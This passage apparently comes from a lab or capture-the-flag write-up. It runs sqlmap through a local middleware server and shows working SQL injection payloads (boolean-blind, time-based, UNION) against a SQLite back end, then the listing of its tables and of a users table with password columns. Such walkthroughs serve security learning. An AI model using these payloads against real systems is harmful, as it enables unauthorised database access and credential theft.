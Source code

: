 ```


```

Great after editing it for our need we can run the server and then run it with sqlmap. 

```
(Window 1)$ python3 server.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
(Window 2)$ /opt/Tools/sqlmap-dev/sqlmap.py -u "http://localhost:8081/?id=1" --batch --dbs --level 5 --risk 3
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 268 HTTP(s) requests:  
---                     
Parameter: id (GET)     
    Type: boolean-based blind                            
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)                          
    Payload: id=1' OR NOT 5442=5442-- LaDw               
                        
    Type: time-based blind                               
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: id=1' OR 6724=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- LuBE
                  
    Type: UNION query                  
    Title: Generic UNION query (NULL) - 4 columns           
    Payload: id=1' UNION ALL SELECT NULL,NULL,NULL,CHAR(113,122,107,106,113)||CHAR(98,65,107,79,67,70,87,120,70,79,76,85,11
2,119,65,84,107,109,107,109,83,75,120,89,109,68,73,74,73,122,86,122,79,72,76,104,70,117,106,108)||CHAR(113,118,118,112,113)
-- Evhz                                
---                                                                                       
[07:54:38] [INFO] the back-end DBMS is SQLite                                                                              
back-end DBMS: SQLite

```


```
$ /opt/Tools/sqlmap-dev/sqlmap.py -u "http://localhost:8081/?id=1" --batch --level 5 --risk 3 --tables

+-----------------+
| answers         |
| info            |
| reports         |
| sqlite_sequence |
| users           |
| versions        |
+-----------------+

$ /opt/Tools/sqlmap-dev/sqlmap.py -u "http://localhost:8081/?id=1" --batch --level 5 --risk 3 -T users --columns

+----------+---------+
| Column   | Type    |
+----------+---------+
| id       | INTEGER |
| password | DATE    |
| role     | TEXT    |
| username | TEXT    |
+----------+---------+

```